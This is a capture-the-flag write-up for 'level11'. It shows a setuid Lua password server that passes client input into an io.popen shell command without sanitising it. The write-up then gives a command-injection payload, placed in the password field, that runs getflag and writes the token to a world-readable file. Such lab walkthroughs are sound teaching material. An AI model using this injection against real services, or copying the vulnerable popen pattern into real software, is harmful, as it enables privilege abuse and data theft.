 ``` shell
ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Let's inspect given LUA script.
It's a server, that ask for password, hashes it with `sha1sum` and analyzes in some way:
``` lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

We are not intereseted in the password analysis.
We will try to exploit system call to `sha1sum`:
``` lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We see that we can pass any string into this call.
So lets pass a string with commands that save token in some file:
`$(echo $(getflag) > /var/tmp/level11.txt; chmod 777 /var/tmp/level11.txt)`